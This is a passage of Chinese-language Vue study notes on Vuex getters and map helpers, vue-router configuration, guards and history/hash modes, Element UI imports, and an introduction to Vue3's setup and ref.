4. `actions` 和 `mutation` 都是对象，里面的每个元素都是键值对，这里采用了简写形式，也就是 `a:function(){…}` 可以改写成 `a(){…}` 的形式


## 14.6 Vuex 开发者工具的使用

Vuex 和 Vue 的开发者工具都集成到 Vue.js.devtools 中，由于我们在之前已经安装过，所以安装过程直接跳过，切换到 vuex 视图：


我们还可以在时间线这里查看事件发生次数和对应时间


## 14.7 getters 配置项

当 state 中的数据需要经过加工后再使用时，我们可 getters 加工

> state 和 getters 之间的关系类似于组件中的 data 和 computed 之间的关系

语法如下：

1. 在 `store/index.js` 中追加 `getters` 配置

   ```js
   …
   const getters = {
   	bigSum(state) {
   		return state.sum * 10
   	}
   }
   
   // 创建并暴露 store
   export default new Vue.Store({
   	…
   	getters
   	…
   })
   ```

2. 组件中读取数据：`$store.getter.bigSum`


> **注意**：getters 不需要使用添加 `$` 前缀

显示效果如下：


## 14.8 mapState 和 mapGetters

1. `mapState` 方法：用于帮助我们映射 `state` 中的数据为计算属性

   ```js
   computed:{
   	// 1. 对象写法，借助 mapState 生成计算属性 name、age、gender 
   	...mapState({name:'name', age:'age', gender:'gender'})
   	// 2. 数组写法，借助 mapState 生成计算属性 name、age、gender 
   	...mapState(['name', 'gender', 'age'])
   }
   ```

2. `mapGetters` 方法：用于帮助我们映射 `getters` 中的数据为计算属性

   ```js
   computed:{
   	    // 1. 借助 mapGetters 生成计算属性 bigSum（对象写法）
       ...mapGetters({bigSum:'bigSum'}),
       
       // 2. 借助 mapGetters 生成计算属性 bigSum （数组写法）
       ...mapGetters(['bigSum']),
   }
   ```

:thinking:**为什么我们要用到 `mapState` 、`mapGetters` 等这类映射？**

当然是为了简化书写，让代码显得更加简洁，举例如下：

现在加入我们在 state 中添加了 name、age、gender 三个属性，我们要到组件中进行访问，需要写成如下形式：

```js
<h1>姓名：{{this.$store.state.name}}</h1>
<h1>性别：{{this.$store.state.age}}</h1>
<h1>年龄：{{this.$store.state.gender}}</h1>
```

前面的 `this.$store.state` 这一长串前缀每次访问都需要写一次，是不是显得十分的累赘，这时候就需要用到 `mapState` 来简化书写，将 `this.$store.state.name` 改写为 `name`，`mapGetters `也是同样的道理

其实他们底层的原理是借助计算属性来进行改写：

```js
name() {
  return this.$store.state.name;
},
age() {
  return this.$store.state.age;
},
gender() {
  return this.$store.state.gender;
},
```

示例代码如下：

```js
// 使用前先从 vuex 中引入 mapState、mapGetters
// import {mapState, mapGetters} from 'vuex'
  computed: {
    // 1. 不借助 mapState 或 mapGetter
/*     name() {
      return this.$store.state.name;
    },
    age() {
      return this.$store.state.age;
    },
    gender() {
      return this.$store.state.gender;
    }, */
    // 2. mapState 的对象写法
    // ...mapState({name:'name', age:'age', gender:'gender'})
    // 3. mapState 的数组写法(必须得是映射名与state中的对应属性名同名情况下才能使用的简写))
    ...mapState(['name', 'gender', 'age']),
    // 1. 借助 mapGetters 生成计算属性 bigSum（对象写法）
    // ...mapGetters({bigSum:'bigSum'}),

    // 2. 借助 mapGetters 生成计算属性 bigSum （数组写法）
    ...mapGetters(['bigSum']),

  },
```

> 这里说明一下为什么要使用扩展运算符 `...`
>
> 我们使用 `mapState`（或 `mapGetters`）生成的是一个对象：
>
>  
>
> 使用扩展运算符，就是为了把对象中的每一个元素都放到 computed 中 

## 14.9 mapActions 和 mapMutations 

1. `mapMutations` 方法：用于帮助我们生成与 `mutations` 对话的方法，即包含 `$store.commit(xxx)` 的函数

   ```js
   methods:{
       // 1. mapMutations 的对象写法 
       ...mapMutations({INCREMENT:'INCREMENT', DECREMENT:'DECREMENT'}),
   
       // 2. mapMutations 的数组写法
       ...mapMutations(['INCREMENT', 'DECREMENT'])
   }
   ```

    :small_red_triangle:<font color="red">注意：这种写法需要我们自己在调用的时候传递参数</font>，如下：

   ```js
   <button @click="INCREMENT(base)">+</button>
   <button @click="DECREMENT(base)">-</button>
   ```

2. `mapActions` 方法：用于帮助我们生成与 `actions` 对话的方法，即：包含 `$store.dispatch(xxx)` 的方法

   ```js
   // 1. mapActions 的对象写法
   ...mapActions({incrementOdd:'incrementOdd', incrementWait:'incrementWait'}),
   
   // 2. mapActions 的数组写法
   ...mapActions(['incrementOdd', 'incrementWait']),
   ```

   > 当然，这种写法也需要自己在调用时传递参数

演示代码如下：

```js
<template>
  <div>
    <h1>当前求和为：{{$store.state.current}}</h1>
    <h1>放大十倍后的current的值为：{{bigSum}}</h1>
    <h1>姓名：{{name}}</h1>
    <h1>性别：{{age}}</h1>
    <h1>年龄：{{gender}}</h1>
    <select v-model.number="base">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
      <!-- 这里可以在 value 前面添加":"",或者在 v-model 后面添加修饰符number，强制转化为数字，否则 1、2、3 将会被当做字符串看待 -->
    </select>
    <button @click="INCREMENT(base)">+</button>
    <button @click="DECREMENT(base)">-</button>
    <button @click="incrementOdd(base)">当前求和为奇数再加</button>
    <button @click="incrementWait(base)">等一等再加</button>
  </div>
</template>

<script>
import {mapState, mapGetters, mapActions, mapMutations} from 'vuex'

export default {
  name: "Count",
  data() {
    return {
      base: 1, // 用户选择的增加和删除的基数
    };
  },
  methods: {
    // increment() {
    //   this.$store.commit("INCREMENT", this.base);
    //   console.log(this.$store);
    // },
    // decrement() {
    //   this.$store.commit("DECREMENT", this.base);
    // },
    // incrementOdd() {
    //   this.$store.dispatch("incrementOdd", this.base);
    // },
    // incrementWait() {
    //   this.$store.dispatch("incrementWait", this.base);
    // }
    // 1. mapMutations 的对象写法 
    // ...mapMutations({INCREMENT:'INCREMENT', DECREMENT:'DECREMENT'}),

    // 2. mapMutations 的数组写法
    ...mapMutations(['INCREMENT', 'DECREMENT']),

    // 1. mapActions 的对象写法
    // ...mapActions({incrementOdd:'incrementOdd', incrementWait:'incrementWait'}),

    // 2. mapActions 的数组写法
    ...mapActions(['incrementOdd', 'incrementWait']),
  },
  computed: {
    // 1. 不借助 mapState 或 mapGetter
/*     name() {
      return this.$store.state.name;
    },
    age() {
      return this.$store.state.age;
    },
    gender() {
      return this.$store.state.gender;
    }, */
    // 2. mapState 的对象写法
    // ...mapState({name:'name', age:'age', gender:'gender'})
    // 3. mapState 的数组写法(必须得是映射名与state中的对应属性名同名情况下才能使用的简写))
    ...mapState(['name', 'gender', 'age']),
    // 1. 借助 mapGetters 生成计算属性 bigSum（对象写法）
    // ...mapGetters({bigSum:'bigSum'}),

    // 2. 借助 mapGetters 生成计算属性 bigSum （数组写法）
    ...mapGetters(['bigSum']),

  },
  mounted() {
    const x = mapState({xingming:'name', xinbie:'gender', nianling:'age'});
    console.log(x); // 测试用
  }
};
</script>

<style>
</style>
```


## 14.10 多组件共享数据


## 14.11 vuex 的模块化编码

 


# 15 路由

## 15.1 路由的简介


1. <font color="red">路由（route）</font>就是一组 **key-value** 的对应关系
2. 多个路由，需要经过<font color="red">路由器（router）</font>的管理

在 Vue 中也有路由，<font color="red">Vue 中的路由主要是通过 vue-rounter 这个插件库来实现，它的作用就是专门用来实现 SPA 应用的</font>。如下：


对 SPA 应用的理解：

1. 单页 Web 应用（single page web application，SPA）
2. 整个应用<strong style="color:red">只有一个完整的页面</strong>
3. 点击页面中的导航链接<strong style="color:red">不会刷新页面</strong>，只会做<strong style="color:red">页面的局部更新</strong>
4. 数据需要<strong style="color:red">通过 Ajax 请求获取</strong>


## 15.2 路由的理解

**什么是路由？**

1. 一个路由就是一组映射关系（key - value）
2. key 为路径，value 可能是 function 或者 component

**路由分类**

1. 后端路由
   - 理解：value 是 <u>function</u>，用于处理客户端提交的请求
   - 工作过程：服务器接收到一个请求时，根据**请求路径找到匹配的函数来处理请求，返回响应数据**
2. 前端路由
   - 理解：value 是 <u>component</u>，用于展示页面内容
   - 工作过程：当浏览器的**路径发生改变时，对应的组件就会显示**


## 15.3 路由的基本使用

首先我们需要安装 `vue-router` 

- **`Vue 2`**：安装 **`vue-router 3`**
- **`Vue 3`**：安装 **`vue-router 4`**

我们现在学习所用的 `Vue` 的版本是 2 版本，所以我们需要使用如下命令安装 `vue-router 3`

```bash
npm install vue-router@3
```

 之后我们需要在 `src/main.js` 中引入和使用该插件

```js
// 引入 vue-router
import VueRouter from 'vue-router'
// 应用 vue-router
Vue.use(VueRouter)
```

再然后，在 `/src/router/index.js` 中创建整个应用的路由器

```js
// 该文件专门用于创建整个路由器
import VueRouter from 'vue-router'

// 引入组件
import About from '../components/About'
import Home from '../components/Home'

// 创建并暴露一个路由器
export default new VueRouter({
    routes:[
        {
            path:'/about',
            component:About
        },
        {
            path:'/home',
            component:Home
        }
    ]
})
```

最后，我们需要在 `src/main.js` 中引入并添加上一步暴露出来的路由器

```js
// 引入路由器
import router from './router'

new Vue({
  render: h => h(App),
  router:router // 在 vm 中添加路由器
}).$mount('#app')
```

这时候，我们运行服务器，就会发现，导航 url 最后多了一个 `/#`


最后我们来完成 **App.vue** 

```vue
<template>
  <div id="app">
    <div class="row">
      <div class="col-xs-offset-2 col-xs-8">
        <div class="page-header">
          <h2>Vue Router Demo</h2>
        </div>
      </div>
    </div>
    <div class="row">
      <div class="col-xs-2 col-xs-offset-2">
        <div class="list-group">
          <!-- active-class 是 router-link 中的属性，当点击时样式被激活 -->
          <router-link class="list-group-item" active-class="active" to="/about">About</router-link>
          <router-link class="list-group-item" active-class="active" to="/home">Home</router-link>
        </div>
      </div>
      <div class="col-xs-6">
        <div class="panel">
          <div class="panel-body">
            <!-- 指定组件的呈现位置 -->
            <router-view></router-view>
          </div>
        </div>
      </div>
    </div>
  </div>
</template>

<script>
import Home from "./components/Home";
import About from "./components/About";
export default {
  name: "App",
  components: {
    Home,
    About,
  },
};
</script>

<style></style>
```

> 注意：
>
> - 一定要引入 bootstrap.css 样式表
> - `router-link` 最终会在 `vue-router` 的作用下转换为 `a` 标签 

**About 组件**

```vue
<template>
  <h2>我是About的内容</h2>
</template>

<script>
export default {
    name:'About',

}
</script>

<style>

</style>
```

**Home 组件**

```vue
<template>
  <h2>我是Home的内容</h2>
</template>

<script>
export default {
    name:'Home',

}
</script>

<style>

</style>
```

最终显示效果如下：


:warning:**注意事项**

1. 路由组件通常存放在 **`pages`** 文件夹，一般组件通常存放在 **`components`** 文件夹
2. 通过切换，"隐藏"了路由组件，<font color="red">默认是被销毁的，需要的时候再去挂载</font>
3. 每个组件都有自己的 **`$store`** 属性，里面存储着自己的路由信息
4. 整个应用只有一个 router，可以通过组件的 **`$router`** 属性获取到


## 15.4 嵌套路由

嵌套路由又称为 "多级路由"

嵌套路由与前面的一级路由配置基本相同，但也有一些需要注意的点，如下：

1. 配置路由规则，使用 children 配置项

   ```js
   routes:[
       {
           path:'/about',
           component:About
       },
       {
           path:'/home',
           component:Home,
           children:[	// 通过children 配置子级路由
               {
                   path:'news',    // 一级路由后面的二级路由、三级路由等前面都不需要添加斜杆'/'
                   component:News,
               },
               {
                   path:'message',
                   component:Message,
               }
           ]
       }
   ]
   ```

2. 跳转（要写完整的路径）

   ```html
   <router-link class="list-group-item"
     to="/home/news"	
     active-class="active"
   >News</router-link>
   ```


## 15.5 路由传参

1. 传递参数

   ```js
   <!-- 跳转路由并携带query参数，to 的字符串写法 -->
   <router-link :to="`/home/message/detail?id=${m.id}&title=${m.title}`">{{m.title}}</router-link>
   
   <!-- 跳转路由并携带query参数，to 的对象写法 -->
   <router-link :to="{
       path:'/home/message/detail', 
       query:{
         id:m.id,
         title:m.title
       }
     }">{{m.title}}</router-link>
   ```

2. 接收参数

   ```js
   $route.query.id
   $route.query.title
   ```


## 15.6 命名路由

命名路由的作用：<font color="red">简化路由的跳转</font>

使用方法：

1. 给路由命名

   ```js
   routes:[
       {
           name:'demo',
           path:'/about',
           component:About
       },
       {
           name:'home',
           path:'/home',
           component:Home,
           children:[
               {
                   name:'news',	// 给路由命令	
                   path:'news',
                   component:News,
               },
           ]
       }
   ]
   ```

2. 简化跳转

   ```html
   <!-- 简化前，需要写完整的路径 -->
   <router-link to="/home/news">News</router-link>
   ```

   ```html
   <!-- 简化后，直接通过名字跳转 -->
   <router-link to="{name:'news'}">News</router-link>
   
   <!-- 简化写法配合传递参数 -->
   <router-link
     to="{
       name:'news',
       query:{
         id:666,
         title:'你好'
       }
     }"
   >News</router-link>
   ```


## 15.7 路由的 params 参数

1. 配置路由，声明接收 params 参数

   ```js
   {
       name:'message',
       path:'message',
       component:Message,
       children:[
           {
               name:'detail',
               path:'detail/:id/:title',      // 使用占位符声明接收 params 参数
               component:Detail
           }
       ]
   },
   ```

2. 传递参数

   ```js
   <!-- 跳转路由并携带params参数，to 的字符串写法 -->
   <router-link :to="`/home/message/detail/666/你好`">{{m.title}}</router-link>
   
   <!-- 跳转路由并携带params参数，to 的对象写法 -->
   <router-link :to="{
       name:'detail',
       params:{
         id:666,
         title:'你好'
       }
     }">{{m.title}}</router-link>
   ```

3. 接收参数

   ```js
   $route.params.id
   $route.param.title
   ```


## 15.8 路由的 props 配置

```js
// 第一种写法：props 值为对象，该对象中的所有 key-value 组合最终都会通过 props 传给 Detai 组件
// 但是这种写法的所有参数的值都是写死的
props:{a:900},

// 第二种写法，props 值为布尔值，布尔值为 true，则把路由收到的所有 params 参数通过 props 传给 Detail 组件
props:true,

// 第三种写法，props 值为函数，该函数返回的对象中每一组 key-value 都会通过 props 传给 Detail 组件
props($route) {
    return {
        id:$route.query.id,
        title:$route.query.title,
    }
}
```

- 写法一只能配置并传递固定数据
- 写法二只能接收路由传递过来的 params 参数
- 写法三灵活性最大，可以通过 `$route` 来传递 `query` 或者 `params` 参数

**接收参数**

只需要在 Detail 组件中，使用 props 配置项接收即可


## 15.9 router-link 的 replace 属性

**作用**：<font color="red">控制路由跳转时操作浏览器历史记录的模式</font>

浏览器的历史记录有两种写入方式：分别是 `push` 和 `replace` 

- `push` 是追加历史记录
- `replace` 是替换当前历史记录
- 路由跳转时默认是 `push`

**开启 `replace` 模式**

```html
<router-link replace …>News</router-link>
```


## 15.10 编程式路由导航

**作用：**不借助 `<router-link>` 实现路由跳转，让路由跳转更加灵活

具体编码：

```js
methods: {
	// …
  showPush() {
    this.$router.push({
      name: "detail",
      params: {
        id: "xxx",
        title: "xxx",
      },
    });
  },
  showReplace() {
    this.$router.replace({
      name: "detail",
      params: {
        id: "xxx",
        title: "xxx",
      },
    });
  },
  // …
},
```

通过在 DOM 结构中添加事件触发：

```html
<button @click="showPush"></button>
<button @click="showReplace"></button>
```

> 如果想要传递参数，那么可以直接 `showPush(params,…)`

`$router` 路由器中还有如下的 API 可供我们前进和回退浏览器器历史记录

```js
this.$router.forward()	// 前进
this.$router.back()		// 后退
this.$router.go(num)	// 前景或后退
```


## 15.11 缓存路由组件

**作用**：<strong style="color:red">让不展示的路由组件保持挂载，不被销毁</strong>

**具体编码**

```html
<keep-alive include="News">
  <router-view></router-view> 
</keep-alive>
```

:small_red_triangle:注意点：

1. `keep-alive` 中不添加 `include`，那么将使得挂载到 `router-view` 中路由每次切换时都不会被销毁
2. `keep-alive` 的 `include` 的参数值<strong style="color:red">为组件名，而不是路由名</strong>
3. 如果想要缓存多个组件，那么 `include` 里面的路由需要写成数组形式，例如 `:include="['News', 'Message']"`


## 15.12 两个新的生命周期钩子

**作用**：路由组件所独有的两个钩子函数，<strong style="color:red">用于捕获路由组件的激活状态</strong>

**钩子函数**

1. `activated`：路由组件被激活时触发
2. `deactivated`：路由组件失活时触发


## 15.13 路由守卫

路由守卫的作用：<strong style="color:red">保卫路由的安全(根据权限判断决定是否能条状到对应的路由)</strong>

分类：

1. 全局守卫
2. 独享守卫
3. 组件内守卫


### 15.13.1 全局守卫

**配置文件：`src/router/index.js`**

一般我们需要在 router 中自定义一个数据来辅助全局守卫，router 中每个路由中的自定义数据存放在 `meta` 中，如下：

```js
{
    name:'demo',
    path:'/about',
    component:About
    meta:{
    	isAuth:false,	// 用于表示该路由是否需要进行权限判断
    }
},
```

接下来要使用 router 中的两个函数进行全局守卫配置

- `router.beforeEach((to, from, next) => {…})`：全局前置守卫配置
  - `to`：目标路由
  - `from`：源路由
  - `next`：是一个回调函数，<strong style="color:red">对后续的执行操作起着拦截或放行的作用</strong>
- `router.afterEach((to, from) => {…})`：全局后置守卫配置
  - `to`：目标路由
  - `from`：源路由

**适用场景**

- 前置守卫适用于路由改变前的操作，可以根据权限判断是否展示对应路由的信息
- 后置守卫适用于路由改变后的操作，可以根据是否进入对应路由来执行相应的操作

**示例**

```js
// 全局前置路由守卫 —— 初始化的时候被调用以及每次路由切换的时候都会调用一次 
router.beforeEach((to, from, next) => {
    console.log('前置守卫', to, from)

    if(to.meta.isAuth) {    // 判断是否需要授权
        if(localStorage.getItem('school') === 'atguigu') {
            next()
        } else {
            alert('学校名不对，无权查看')
        }
    } else {
        next()  // 不需要判断权限的路由直接放行
    }
})

// 全局后置路由守卫
router.afterEach((to, from) => {    // 该配置是为了每次路由跳转的时候进行标签名的更新
    console.log('后置路由守卫', to, from);
    if(to.meta.title) {
        document.title = to.meta.title  // 如果 meta 中配置了路由的 title，那么就修改
    } else {
        document.title = 'vue-test'
    }
})
```

当然，之前我们都是直接将 router 暴露出来，这里为了进行全局守卫配置，需要先用变量接收，配置完之后再暴露：

```js
// 定义好 router
const router = new VueRouter({…})
// 进行全局守卫配置
router.beforeEach((to, from, next) => {…})
router.afterEach((to, from) => {…})
// 将 router 暴露出来
export default router
```


### 15.13.2 独享路由守卫

独享路由守卫：只对单个路由进行的守卫

独享路由守卫的配置函数为`beforeEnter((to, from, next) => {…})` ，是在 route 中进行配置

**示例**

```js
beforeEnter(to, from, next) {
    console.log('独享路由守卫', to, from)

    if(to.meta.isAuth) {    // 判断是否需要授权
        if(localStorage.getItem('school') === 'atguigu') {
            next()
        } else {
            alert('学校名不对，无权查看')
        }
    } else {
        next()  // 不需要判断权限的路由直接放行
    }
}
```


### 15.13.3 组件内路由守卫

组件内路由守卫：主要针对组件而言，在组件之间切换时触发的守卫

```js
// 进入守卫，通过路由规则，进入该组件时被调用
beforeRouteEnter(to, from, next) {},
// 离开守卫，通过路由规则，离开该组价时被调用
beforeRouteLeave(to, from, next) {},
```

这里我们需要区分组件内路由守卫和全局路由守卫，两者看似很像却截然不同：

- 全局路由守卫是针对路由而言的，而组件内路由守卫是针对组件而言的
- 当我们进入了某个路由后，自动调用全局后置和前置守卫，而路由所指定的组件此时仅仅只触发了进入守卫，只有当我们离开该组件后才会触发组件内守卫的离开守卫


## 15.14 history 和 hash 模式

路由器存在两种工作模式：

1. history 模式
2. hash 模式

对于一个 url 来说，hash 指的就是 `#` 后面的内容，<strong style="color:red">hash 值不会包含在 HTTP 请求中，即 hash 值不会带给服务器</strong>


**特点**

- hash 模式（默认）
  1. 地址中永远带这 `#` 号，不美观
  2. 若以后将地址通过第三方手机 app 分享，若 app 检验严格，则地址会被标记为不合法
- history 模式
  1. 地址干净、美观
  2. 兼容性和 hash 模式相比略差
  3. 应用部署上线时需要后端人员支持，解决刷新页面服务器 404 的问题

:herb:**修改模式的方法**

在创建路由器 router 对象实例中添加 `mode:history` 或者 `mode:hash` 来将路由模式修改为 `history` 或 `hash` 模式

```js
const router = new VueRouter({
    mode:'history',
    routes: […]
})
```

**演示**

为了演示 hash 模式下，hash 值不会带给服务器，我们需要将之前制作的 SPA 进行打包，打包命令如下：

```bash
npm run build
```

稍事等待，待打包完毕后，生成的文件在 `/dist` 文件夹中，生成的目录结构如下：

```
dist                                 
├─ css                               
│  └─ bootstrap.css                  
├─ js                                
│  ├─ app.adc4f030.js                
│  ├─ app.adc4f030.js.map            
│  ├─ chunk-vendors.7c6bdce6.js      
│  └─ chunk-vendors.7c6bdce6.js.map  
├─ favicon.ico                       
└─ index.html                        
```

我们如果直接打开 index.html ，肯定是浏览器不了的，需要将打包的文件放到服务器中服务才能运行，所以我们现在来使用 node.js 和 express 来编写一个服务器

1. 新建一个工作目录，在工作目录中初始化 npm 项目

   ```bash
   npm init
   ```

   接着写好包名后一路回车即可

   

2. 接着安装 express 框架

   ```bash
   npm i express
   ```

3. 编写一个服务器主文件 `/server.js`

   ```js
   const express = require('express')  // 使用 common.js 的语法来引入 express 框架
   // 创建 app 服务实例对象
   const app = express()
   // 指定静态资源
   app.use(express.static(__dirname + '/static'))
   // 搭建路由
   app.get('demo', (req, res) => {
       res.send({
           name:'tom',
           age:18,
       })
   })
   
   app.listen(5005, (err) => {
       if(!err) {
           console.log('服务器启动成功');
       }
   })
   ```

4. 新建一个 static 文件夹，用于存放静态资源，将生成好的 dist 文件夹中的内容放置到 static 中

5. 启动服务器：`node server`

6. 在浏览器中输入 `localhost:5005` 打开部署好的页面

接下来我们就来测试一下：

- 如果我们使用的是 hash 模式，无论我们如何刷新页面，页面都不会向服务器发送请求，此时页面也就不会出现请求资源错误；

- 如果我们使用的是 history 模式，只要一刷新页面，就会产生请求获取资源错误，如下：

  

当然，如果面对 history 模式，我们也有自己的解决方法，首先去 [npm 包管理平台](https://www.npmjs.com/) 下载 connect-history-api-fallback，或者使用如下命令安装：

```bash
npm i connect-history-api-fallback
```

接着引入并使用这个包

```js
const history = require('connect-history-api-fallback')

// 注释使用 history 的时机，需要在创建 app 实例之后，在挂载静态资源之前
app.use(history())
```

这个时候我们再刷新页面，页面就不会产生问题


## 15.15 重定向


# 16 Vue UI 组件库

**移动端常用的 UI 组件库**

1. Vant：https://github.com/youzan/vant
   - [中文官网](https://youzan.github.io/vant-weapp/#/home)
2. Cube UI：https://github.com/didi/cube-ui
   - [中文官网](https://didi.github.io/cube-ui/#/zh-CN/docs/quick-start)
3. Mint UI：https://mint-ui.github.io


**PC 端常用 UI 组件库**

1. Element UI：https://element.eleme.cn
2. IView UI：https://www.iviewui.com/


下面我们会基于 Element 组件库快速成型，我们引入Element 组件库有两种形式，分别是：

1. 完整引入
2. 按需引入

不过，不管是全部引入，还是按需引入，我们都需要先安装 element 组件库

```bash
npm i element-ui
```


## 16.1 Element 完整引入

首先，我们需要在 `src/main.js` 中写入以下内容：

```js
// 引入element的组件库和样式文件
import ElementUI from 'element-ui';
import 'element-ui/lib/theme-chalk/index.css';

// 使用插件
Vue.use(ElementUI);
```


接着，我们就可以直接到我们自己的组件中引入相关的组件即可


## 16.2 按需引入

我们全部引入具有一个很大的弊端那就是我们要使用的组件和样式仅仅只是一小部分，全部引入必然造成浪费了很多网络资源，如下：


这个时候我们考虑使用"按需引入"的方式来进行精简

首先就需要将之前引入的组件库和使用插件的三行代码全部删除，接着，安装 babel-plugin-component：

```bash
npm install babel-plugin-component -D
```

修改 babel.config.js（截止到 2022-12-06 日文件名即修改的文件内容如下）

```js
module.exports = {
  presets: [
    '@vue/cli-plugin-babel/preset',
    ["@babel/preset-env", { "modules": false }]
  ],
  "plugins": [
    [
      "component",
      {
        "libraryName": "element-ui",
        "styleLibraryName": "theme-chalk"
      }
    ]
  ]
}
```

接下来在 `/src/main.js` 中按需导入和使用，例如，如果我只想要使用 button 和 Select 组件，我们可以这么写：

```js
import { Button, Select } from 'element-ui';
Vue.use(Button)
Vue.use(Select)
// 扩展写法可以自定义组件名，如下：
/* Vue.component(Button.name, Button);
Vue.component(Select.name, Select); */
```

> 注意：引入的组件名全部都是使用大驼峰命名法

最后，只要引入组件即可


# 17 Vue3 引入


## 17.1 Vue3简介

- 2020年9月18日，Vue.js发布3.0版本，代号：One Piece（海贼王）
- 耗时2年多、[2600+次提交](https://github.com/vuejs/vue-next/graphs/commit-activity)、[30+个RFC](https://github.com/vuejs/rfcs/tree/master/active-rfcs)、[600+次PR](https://github.com/vuejs/vue-next/pulls?q=is%3Apr+is%3Amerged+-author%3Aapp%2Fdependabot-preview+)、[99位贡献者](https://github.com/vuejs/vue-next/graphs/contributors) 
- github上的tags地址：https://github.com/vuejs/vue-next/releases/tag/v3.0.0

> RFC 指的是 "Request For Comments"，请求修改意见稿，而 PR 指的是 "Pull Request"，拉取请求


## 17.2 Vue3带来了什么

### 1.性能的提升

- 打包大小减少41%

- 初次渲染快55%, 更新渲染快133%

- 内存减少54%

  ......

### 2.源码的升级

- 使用Proxy代替defineProperty实现响应式

- 重写虚拟DOM的实现和Tree-Shaking

  ......

### 3.拥抱TypeScript

- Vue3可以更好的支持TypeScript

### 4.新的特性

1. Composition API（组合API）

   - setup配置
   - ref与reactive
   - watch与watchEffect
   - provide与inject
   - ......
2. 新的内置组件
   - Fragment 
   - Teleport
   - Suspense
3. 其他改变

   - 新的生命周期钩子
   - data 选项应始终被声明为一个函数
   - 移除keyCode支持作为 v-on 的修饰符
   - ......


## 17.3 创建 Vue3.0 工程

### 17.3.1 使用 vue-cli 创建

官方文档：[传送门](https://cli.vuejs.org/zh/guide/creating-a-project.html)

```bash
# 1. 查看 @vue/cli 版本，确保 @vue/cli 的版本在 4.5.0 以上
vue --version
vue -V

# 2. 安装或升级 @vue/cli
npm install -g @vue/cli

# 3. 创建工程项目
vue create vue_test

# 4. 启动
cd vue_test
npm run serve
```


### 17.3.2 使用 vite 创建

vite 官网：[官网传送门](https://vitejs.cn/)

什么是 vite? —— 新一代前端构建工具

优势如下：

- 开发环境中，无需打包操作，可快速的冷启动。
- 轻量快速的热重载（HMR）。
- 真正的按需编译，不再等待整个应用编译完成。

传统构建（左）与 vite 构建（右）对比图如下

<center>
    
    
</center>

​    


创建步骤如下：

```bash
# 1. 创建工程
npm init vite-app <project-name>
# 2. 进入工程目录
cd <project-name>
# 3. 安装依赖
npm install
# 3. 运行
npm run dev
```

初始化界面如下：


## 17.4 分析工程结构

Vue3 的工程结构和 Vue2 的工程结构类似，区别主要体现在 main.js 和 组件 中的两个小点：

1. main.js

   ```js
   // 引入的不再是 vue 的构造函数，引入的是一个名为 createApp 的工程函数
   import { createApp } from 'vue'
   import App from './App.vue'
   import './index.css'
   // 创建应用实例对象(类似于之前vue2中的vm,但app比vm更"轻")
   createApp(App).mount('#app')
   ```

2. 组件

   基本语法类似，做出的最大的一点改变就是：Vue3 组件中的模板结构没有根标签

   ```html
   <template>
     
     <HelloWorld msg="Hello Vue 3.0 + Vite" />
   </template>
   ```


## 17.5 Vue3 开发者工具的安装

**方式一**：在 Chrome 商店中找到 Vue.js.devtools 的 beta 版本进行下载安装即可


**方式二**：前往[扩展迷](https://www.extfans.com/)中进行下载安装

之后将下载好的 .crx 扩展添加到开发者工具中即可


> 当然，截止到 2022-12-26，Vue.js.devtools 已经更新到 6.4.5 版本，完全可以支持 Vue3


# 18 Vue3 常用 Composition API

官方文档：[官网传送门](https://cn.vuejs.org/guide/extras/composition-api-faq.html)

## 18.1 初识 setup

1. 理解：Vue3.0 中的一个新的配置项，值为一个函数

2. setup 是所有 <strong style="color:orange">Composition API(组合 API)</strong> "表演的舞台"

3. 组件中所用到的：数据、方法等等，均要配置在 setup 中

   ```js
   // 不考虑响应式的写法
   setup() {
     // data
     let name = '张三'
     let age = 18
   
     // method
     function demo() {
       alert(`我叫${name}, 我今年${age}岁了`)
     }
   }
   ```

4. setup 函数的两种返回值

   - <strong style="color:red">若返回一个对象，则对象中的属性、方法，在模板中均可以使用（重点）</strong>

     ```js
     // 返回一个对象
     return {
       name,
       age,
       demo
     }
     ```

   - <font color="gray">若返回一个渲染函数，则可以自定义渲染内容（了解）</font>

     ```js
     // 返回一个函数（渲染函数），要事先导入 h 模块，import {h} from 'vue'
     return () => {
       return h('h1', 'Hello World!')  // 返回 h 的调用结果
     }
     ```

5. 注意点：
   1. 尽量不要与 Vue2.x 配置混用
      - Vue2.x 配置（data、methods、computed、…）中可以访问到 setup 中的属性、方法
      - ~~但在 setup 中不能访问到 Vue2.x 配置（data、methods、computed、…）~~
      - ~~如果有重名，setup 优先~~
   2. setup 不能是一个 async 函数，因为返回值不再是 return 对象，而是 promise，模板是看不到 return 对象中的属性的

示例代码如下：

```js
<template>
  <h1 style="color:blue">姓名：{{name}}</h1>
  <h1 style="color:blue">年龄：{{age}}</h1>
  <hr>
  <h1 style="color:red">性别：{{gender}}</h1>
  <h1 style="color:red">地址：{{address}}</h1>
  <hr>
  <button @click="getVue_3">在Vue2语法中读Vue3的数据</button>
  <hr>
  <button @click="getVue_2">在Vue3语法中读Vue2的数据</button>
  <hr>
  <h1>重复数据：{{version}}</h1>
</template>

<script>
// import { h } from "vue";
export default {
  name: "App",
  data() {
    return {
      gender: "男",
      address: "翻斗大花园",
      version:'vue2.x'
    };
  },
  methods: {
    getVue_3() {
      console.log('在Vue2语法中读取Vue3的数据：', this.name);
    }
  },
  setup() {
    // data
    let name = "张三";
    let age = 18;
    let version = 'vue3.x'
    // method
    function getVue_2() {
      console.log('从Vue3中读取Vue2的数据：', this.gender);
    }
    // 返回一个对象
    return {
      name,
      age,
      version,
      getVue_2
    }

    // // 返回一个函数（渲染函数）
    // return () => {
    //   return h("h1", "Hello World!"); // 返回 h 的调用结果
    // };
  },
};
</script>
```

执行结果如下：


> :warning:注意：这里尚硅谷的老师讲错了两点：
>
> 1. 其实 Vue3.x 的 setup 配置项中也可以读取到 vue2.x 的 data、methods、computed 等数据和属性
> 2. 关于配置项冲突的取舍问题采取覆盖原则，后面的会将前面的覆盖，而不是简单地取 setup 为最高权重


## 18.2 ref 函数

作用：<strong style="color:red">定义一个响应式的数据</strong>

语法如下：

```js
const xxx = ref(initValue)
```

- 创建一个包含响应式数据的<strong style="color:red">引用对象（reference 对象）</strong>
- JS 中操作数据：`xxx.value`
- 模板中读取数据：不需要通过 `.value` 获取数据，直接`<div>{{xxx}}</div>`

:spiral_notepad:备注

1. 接收的数据可以是==基本类型==，也可以是==对象类型==
2. 基本类型的数据：响应式依然是通过`Object.defineProperty()`的`get`与`set`完成的
3. 对象类型的数据：内部 "求助" 了 Vue3.0 中的一个新函数 —— `reactive`函数

**示例**

```js
<template>
  <h1>姓名：{{name}}</h1>
  <h1>年龄：{{age}}</h1>
